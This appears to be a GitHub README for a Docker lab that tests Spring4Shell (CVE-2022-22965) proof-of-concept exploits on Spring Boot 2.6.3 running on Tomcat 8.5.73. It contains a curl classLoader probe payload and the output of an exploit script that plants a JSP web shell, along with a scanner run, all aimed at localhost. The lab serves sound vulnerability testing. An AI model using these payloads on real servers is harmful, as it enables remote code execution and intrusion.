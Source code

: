 Lab to test poc exploit on vulnerable spring boot version 2.6.3 deployed on fixed tomcat version 8.5.73 with open-jdk 11

Tomcat version: 8.5.73
openJDK: 11
Spring Boot: 2.6.3

How to deploy?

```
docker build . -t sp4s-tomcat8.5.73-jdk11-spb2.6.3 && docker run -p 8000:8080 sp4s-tomcat8.5.73-jdk11-spb2.6.3
```

You can access the application at http://localhost:8000/helloworld/greeting

Test if application is vulnerable

## Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC
```
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
curl -i http://localhost:8000/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0                               130 ⨯
HTTP/1.1 400 
Content-Type: application/json
Date: Sun, 17 Apr 2022 20:32:43 GMT
Connection: close
Content-Length: 110

{"timestamp":"2022-04-17T20:32:43.423+00:00","status":400,"error":"Bad Request","path":"/helloworld/greeting"
```

400 response indicates that application is vulnerable but is it exploitable? let's try to exploit it using another exploit poc


## POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC
```bash
python exploit.py --url http://localhost:8000/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost:8000/shell.jsp?cmd=id
```

It gives 200 OK response which mease exploit is successful to confirm go to http://localhost:8000/shell.jsp?cmd=id so now
it is confirmed that spring boot version 2.6.3 running on tomcat version 8.5.73 with jdk11 is vulnerable.


let's try another poc

### POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
python spring4shell-scan.py --url http://localhost:8000/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8000/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8000/helloworld/greeting | PAYLOAD: class.module.classLoader[ib1153g]=ib1153g
[!!!] Target Affected (CVE-2022-22965)
[!] Total Vulnerable Hosts: 1
[!] http://localhost:8000/helloworld/greeting
                                             
```

